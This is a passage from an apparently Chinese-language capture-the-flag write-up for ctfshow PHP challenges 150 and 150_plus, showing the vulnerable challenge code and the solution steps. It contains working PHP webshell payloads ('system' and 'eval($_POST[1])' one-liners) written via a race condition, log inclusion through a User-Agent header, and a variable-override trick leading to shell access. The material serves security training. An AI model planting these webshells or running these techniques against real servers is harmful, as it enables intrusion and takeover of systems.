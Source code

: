 预期应该是条件竞争，不过现在限制了请求数

可以用bp开两个爆破，一个不断访问传参，一个不断访问1.php

```
ctf=1.php
show=<?php system('tac /c*');?>
```

也可以写个多线程

还有个非预期：
往index.php里写个一句话：

```
ctf=index.php
show=<?php eval($_POST[1]);?>
```

## 150-日志文件包含

非预期：
ua头写一句话，然后直接包含即可

## 150_plus

> hint:
>
> 这个题一点点小坑：`__autoload()`函数不是类里面的
> `__autoload` — 尝试加载未定义的类 
>
> 最后构造`?..CTFSHOW..=phpinfo`就可以看到phpinfo信息啦 
>
> 原因是`..CTFSHOW..`解析变量成`__CTFSHOW__`然后进行了变量覆盖，因为CTFSHOW是类就会使用 __autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo()
>
> 接下来就是getshell啦
>
> exp:[vulhub/exp.py at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py)

```php
class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}
```